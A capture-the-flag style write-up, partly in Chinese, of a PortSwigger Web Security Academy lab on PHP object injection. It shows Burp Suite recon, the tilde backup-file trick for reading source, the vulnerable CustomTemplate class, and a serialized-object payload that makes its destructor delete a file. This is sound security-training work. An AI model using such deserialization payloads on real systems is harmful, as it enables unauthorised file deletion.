 # Lab: Arbitrary object injection in PHP
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result.
* Goal: To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.
You can log in to your own account using the following credentials: wiener:peter
* Hint: You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file.

## Constructor & Deconstructor
[Python建構函式與解構函式（__init__()和__del__()）](https://tw511.com/a/01/26451.html)
其實概念就是Python的`__init()__` function，在instanciate一個class的時候扮演初始化的功能而已
而deconstructor就是Python中的`__del__()` function用來回收不需要的class，以達到降低記憶體的使用量

## Recon
1. Login and Recon
As the solution of this lab, we first need to arbitrary query something in this website, e.g. query `My account` and forward all packages

2. Use Target Feature in Burp Suite
In my case, the URL of this lab is `https://0a29005704ba2655802d8a75009100d5.web-security-academy.net/my-account?id=wiener`

    So, I can search it in target feature to browse all query of this website.
    ![](https://i.imgur.com/SWrrzgI.png)

3. <font color="FF0000">通靈</font>Something Interesting - `/libs/CustomTemplate.php`
This file may be a vulnerability to achieve our goal.

4. Send to repeater
Obviously, you can not access the content first.
![](https://i.imgur.com/D31vFeN.png)

    By the hint. The solution is using `~` character to read the source code
    ![](https://i.imgur.com/1N1EpQh.png)

    :::spoiler CustomTemplate.php Source Code
    ```php=
    <?php

    class CustomTemplate {
        private $template_file_path;
        private $lock_file_path;

        public function __construct($template_file_path) {
            $this->template_file_path = $template_file_path;
            $this->lock_file_path = $template_file_path . ".lock";
        }

        private function isTemplateLocked() {
            return file_exists($this->lock_file_path);
        }

        public function getTemplate() {
            return file_get_contents($this->template_file_path);
        }

        public function saveTemplate($template) {
            if (!isTemplateLocked()) {
                if (file_put_contents($this->lock_file_path, "") === false) {
                    throw new Exception("Could not write to " . $this->lock_file_path);
                }
                if (file_put_contents($this->template_file_path, $template) === false) {
                    throw new Exception("Could not write to " . $this->template_file_path);
                }
            }
        }

        function __destruct() {
            // Carlos thought this would be a good idea
            if (file_exists($this->lock_file_path)) {
                unlink($this->lock_file_path);
            }
        }
    }

    ?>
    ```
    :::
    
    In this example, we notice that it has constructor and deconstructor so we can constuct a serialization string to delete something
## Exp - Deconstructor
Exploit Payload:
```php!
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Then send it directly and we can delete the specific file properly.
:::spoiler Success Screenshot
![](https://i.imgur.com/NXvqtr5.png)

:::